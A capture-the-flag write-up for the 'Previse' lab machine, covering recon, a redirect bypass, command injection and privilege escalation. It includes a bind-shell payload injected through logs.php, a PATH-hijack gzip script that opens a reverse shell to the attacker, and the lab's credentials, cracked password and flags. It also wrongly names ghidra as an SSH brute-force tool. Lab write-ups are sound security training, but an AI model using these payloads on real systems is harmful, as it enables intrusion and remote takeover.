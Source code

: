 Previse

# **Previse**
##  Nmap scan results
```bash
nmap -A -Pn 10.10.11.104
```
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 03:39 EDT
Nmap scan report for 10.10.11.104
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds
```
We can see from this nmap scan that this machine is running SSH and HTTP.  
SSH can be bruteforced via tools like `ghidra` but we do not know any username or password, so it is better to start off with HTTP service running on port 80.

Since default ip `10.10.11.104` redirects to `http://10.10.11.104/login.php`, we understand that this website is running PHP. Using tools like `wfuzz OR ffuf OR dirb OR dirbuster OR gobuster` can help us find other PHP pages. I will pick ffuf because it is faster.

```bash┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.104/FUZZ -e .php -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15400, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6075, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2970, Words: 749, Lines: 75]
:: Progress: [9228/9228] :: Job [1/1] :: 320 req/sec :: Duration: [0:00:39] :: Errors: 0 ::

```
Here interesting pages are:
(200 OK)
```
config.php, 
nav.php,
```
(302 Redirect)
```
files.php, 
download.php, 
accounts.php
```

config.php is empty page with 0 length, but nav.php shows some valuable information about navigation on the site:
![eb28c0d0a939136a416287a2581901e9.png](/_resources/0ad7041589084a77b78c5c49c57df554.png)
But every link on this navigation page redirects to the default login page `http://10.10.11.104/login.php`

Clicking files.php on this page and intercepting the request via burp suite shows that server actually sends us `files.php` but it then immediately redirects to `login.php` so we do not see files.php in our browser.

Below is a part of `files.php` source code from burp suite:
![46278d7b74d70cfc6dde148438019737.png](../_resources/a256828fd3c94fdb8175d40f2264df6f.png)

We can also access status.php to see there is MySQL service running in the background and there are 10 admins and 2 uploaded files on this website.
![2e3f6bd63a9aa6d87add75ea4dfff8e5.png](../_resources/658bee3583f847589f631c2bf1c2c905.png)

Accounts.php is interesting. To bypass 302 redirection on this site we can simply change the HTTP header from `302 Found` to `200 OK`. (Notice the change in the first line)
![235246d5eea4470bb2ff122075a12af1.png](../_resources/5308ec2b5ed74394a25312ad15faa879.png)
![62d51f804153c9dbd1cdba9634208bcd.png](../_resources/c0b0ab6a3cb24d00aecc166cff5a8424.png)
From this accounts.php page I created an account with `id:ubuntu and password:linux`

Logging in with these credentials gives us access to management panel.
![7d362d2d4853370c1f2c099aad1f8577.png](../_resources/ea441bcd7afd489ca3f9b907e1a73a7b.png)

From this page we can download both files. Unzipping sitebackup.zip we can access config.php where we can find a username and password stored.
![d69233d3c34d9d46fa75246ca608af82.png](../_resources/59370de0bcc14d4191c9e4063206f887.png)
![eb07f555ecc2f6e7e49ae13fe376c316.png](../_resources/9791b57d452645a5a455e115baf791bb.png)

I tried to login SSH with these `root:mySQL_p@ssw0rd!:)` credentials but without success.

Another file on that zip named `logs.php` shows a code that may be vulnerable to ` code injecton` because there seems to be no user input sanitization.
![bfd49c8e0d79f3ea100d8cd6683517b1.png](../_resources/dc39b2a5a9e24664b638a942ef28af3b.png)

We can try to inject code in `file_logs.php` to gain a shell. To do this we close echo command with `&` and then write our own shell command (nc)
![b62f71ee3f1ce236fa822940fe9e0224.png](../_resources/69c57e407eb74b32abf5c27cd2294bf2.png)

Final payload:
`echo $output & nc -lvnp 1234 -e /bin/bash`

URL encoded payload to be sent via BURP:
`%26nc%20-lvnp%201234%20-e%20%2Fbin%2Fbash`

Below is an image of delim=comma+our URL-encoded payload. Forwarding this request executes `nc -lvnp 1234 -e /bin/bash` command on this web server, so it starts listening to ANY on port 1234, a.k.a. bind shell.
![77c951f35e5044e0d8e252eb2abd5905.png](../_resources/bd43c5308eef45f591994c7029a199ab.png)

We can now connect to its 1234th port with this command in our kali box:
`nc 10.10.11.104 1234`
![7b29117d73f514c4a487f120338d8e90.png](../_resources/34834d2cde084928ab6591722a8d0392.png)

To make the shell more interactive, use the command:
`python -c "import pty;pty.spawn('/bin/bash')"
`
![5e708dfc358535b87213a414601eebae.png](../_resources/11354d2f0ca84e75b740eeb83a43432b.png)

Then using previously discovered credentials `root:mySQL_p@ssw0rd!:)`  we can dump accounts table:
![76a74b29ea9a352f97b02c9bd40461c6.png](../_resources/837d4d567ec64a9e8ede492f24e2252d.png)

Note the hash of the user m4lwhere: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

Cracking it with hashcat `hashcat -m 500 hashson.txt /usr/share/wordlists/rockyou.txt ` gives cleartext password:`ilovecody112235!`

Using `m4lwhere:ilovecody112235!` to ssh into the machine and reading user.txt `e8a8e264c58be755633bacd03c9624d5`
![1303b4a1d5771e184fd4b531b627c87c.png](../_resources/fb1fb4a0ab0c47aa90861b4c91a42898.png)

Privilege escalation:
![dfd6b0df2f6fd31728a7266d9cae4066.png](../_resources/fc64a43b63eb4a50a395babe38277a22.png)

from `sudo -l` command we see we can run "gzip" as root. Linux by default calls gzip from `/bin/gzip` (we can see that by running `which gzip`)

Using path injection, we can create our own gzip executable and make this script call our gzip instead.
![7774b0de5fecaf6108cb4b1bac2d0a63.png](../_resources/1f163b6179b6471494ffefce601dea4a.png)

Commands:
```bash
cd /tmp
echo "nc 10.10.15.9 1547 -e /bin/bash" > gzip
chmod 777 gzip
export PATH=/tmp:$PATH
```

Now when this script calls gzip, it will execute `/tmp/gzip
` (not default /bin/gzip)

Run this script as sudo:
![98ee0d97a709e7a43d349ed0171b667b.png](../_resources/fd72bd51403541e5af7ff9a793daa112.png)

And catch the incoming connection request with netcat: `nc -lvnp 1547`
![ff92da0731a4275a62afbb2be553c39b.png](../_resources/c87bc83202a94e39b4b414b747038131.png)
Root flag: `2ac1090ac49d3e72b94dcc2cdcae0ea2`

Batuhan Kahraman, 05.09.2021

![9c9897434dde73d96d1b75411d4dc50e.png](../_resources/6e4187b204be4189bd14c1e9fbe38abe.png)

